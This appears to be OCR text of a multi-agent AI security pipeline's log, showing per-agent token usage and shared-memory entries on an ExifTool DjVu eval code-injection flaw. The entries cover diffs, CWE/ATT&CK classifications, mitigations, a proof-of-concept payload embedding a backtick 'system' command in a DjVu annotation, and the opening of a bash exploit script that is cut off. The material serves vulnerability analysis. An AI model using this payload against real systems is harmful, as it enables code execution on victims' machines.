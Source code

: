 Usage per agent:
├─ code-analyst: 3,632,348 input + 32,492 output = 3,664,840 total tokens (50 requests)
├─ security-specialist: 7,001 input + 3,198 output = 10,199 total tokens (4 requests)
├─ red-team-operator: 172,432 input + 17,237 output = 189,669 total tokens (32 requests)
└─ planning-agent: 445,532 input + 20,300 output = 465,832 total tokens (40 requests)


Shared Memory:
diff_12.23_12.24_files
[19:01:45]
Changes, META.json, META.yml, README, exiftool, perl-Image-ExifTool.spec, windows_exiftool


djvu_diff_hunks
[19:05:13]
- Removed unsafe eval parsing
- Added whitelist-based escape parsing
- Version bump to 1.07


lib_Image_ExifTool_DjVu_v1.06_vuln_classifications
[19:05:34]
CWE-94: Improper Control of Generation of Code ('Code Injection'); CAPEC-94: Code Injection; ATT&CK T1059: Command and Scripting Interpreter; ATT&CK T1203: Exploitation for Client Execution


lib_Image_ExifTool_DjVu_v1.06_mitigations
[19:05:46]
- Upgrade to ExifTool v1.07 or later where unsafe eval is removed
- Implement strict input validation and whitelisting of escape sequences
- Use a safe parser instead of Perl eval for string decoding
- Apply principle of least privilege when running ExifTool
- Conduct regular code reviews and static analysis focusing on code injection patterns
- Enable sandboxing/containers to limit process capabilities


lib_Image_ExifTool_DjVu_v1.06_poc_exploit
[19:05:52]
Craft a DjVu file with an annotation string containing a C-style escape that triggers code execution. For example: annotation string: "Hello\041`system('id > /tmp/pwned')`". When processed by the vulnerable v1.06, this causes Perl eval to execute the backtick command. Embed this in the DjVu metadata and feed to ExifTool: `exiftool -DjVu:Annotation="Hello\041`system(\"id > /tmp/pwned\")`" bad.djvu`


exploit_sh
[19:16:49]
#!/bin/bash
# PoC for ExifTool v1.06 DjVu annotation code-injection
ET=/usr/local/bin/exiftool106

# Cleanup
rm -f exploit.djvu /tmp/pwned
